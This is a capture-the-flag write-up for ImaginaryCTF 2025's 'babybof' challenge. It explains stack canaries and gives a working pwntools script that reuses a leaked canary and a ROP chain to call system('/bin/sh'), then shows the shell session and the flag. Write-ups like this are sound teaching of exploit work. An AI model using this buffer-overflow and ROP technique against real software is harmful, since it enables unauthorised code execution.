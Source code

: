 ```yaml
---
layout: post
title:  "babybof"
date:   2025-09-08 21:20:43 -0400
author: robo.uzi
tags: [ctf]
permalink: /imaginaryctf-2025-babybof/
---
```


**Title:** babybof

**Category:** pwn  

**Creator:** Eth007

**Description:** welcome to pwn! hopefully you can do your first buffer overflow

`nc babybof.chal.imaginaryctf.org 1337`

I get a binary for local testing. I run it:
```shell
file vuln1 
vuln1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7ba6fa8651d912a4066553867627aee0cc13cd1b  
, for GNU/Linux 3.2.0, not stripped

./vuln  
Welcome to babybof!  
Here is some helpful info:  
system @ 0x7fed21296490  
pop rdi; ret @ 0x4011ba  
ret @ 0x4011bb  
"/bin/sh" @ 0x404038  
canary: 0xa3ec26e913c31700  
enter your input (make sure your stack is aligned!): gimme flag     
your input: gimme flag  
canary: 0xa3ec26e913c31700  
return address: 0x7fed2127124a
```
I see the same output when connecting remotely. All the info I need is right here. I locally test the buffer. 56 characters is the limit.

The canary is a security mechanism placed between the buffer and the saved return address on the stack. It attempts to detect and prevent buffer overflow attacks that try to overwrite the return address. 

If a buffer overflow occurs and overwrites memory past the buffer, the canary is overwritten. Before the function returns, the program checks whether the canary has changed. If it changes, the program exits, preventing the attacker from hijacking control flow. 

Knowing the canary allows you to overflow the buffer without triggering the canary check, letting the ROP chain execute.

Run this script:
```python
from pwn import *

HOST, PORT = "babybof.chal.imaginaryctf.org", 1337
USE_REMOTE = True

POP_RDI = 0x4011ba
RET     = 0x4011bb
BUF     = 56

io = remote(HOST, PORT) if USE_REMOTE else process("./vuln")
banner = io.recvuntil(b"input").decode()

def grab(tag): return int(banner.split(tag+" @ ")[1].split()[0],16)

system = grab("system")
binsh  = grab('"/bin/sh"')
canary = int(banner.split("canary: ")[1].split()[0],16)

payload  = b"A"*BUF
payload += p64(canary)
payload += b"B"*8
payload += p64(RET)
payload += p64(POP_RDI) + p64(binsh)
payload += p64(system)

io.sendline(payload)
io.interactive()
```
The script sends a string that fills the buffer up to the canary, copies the canary, and overwrites the saved return address with a ROP chain `ret > pop rdi > /bin/sh > system`. 

Getting the flag:
```shell
python3 overflow.py  
[+] Opening connection to babybof.chal.imaginaryctf.org on port 1337: Done  
[*] Switching to interactive mode  
(make sure your stack is aligned!): your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
canary: 0x857fc228c5f96b00  
return address: 0x4011bb  
$ id  
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)  
$ ls  
chal  
flag.txt  
$ cat flag.txt  
ictf{arent_challenges_written_two_hours_before_ctf_amazing}  
$    
[*] Interrupted  
[*] Closed connection to babybof.chal.imaginaryctf.org port 1337
```
`ictf{arent_challenges_written_two_hours_before_ctf_amazing}`
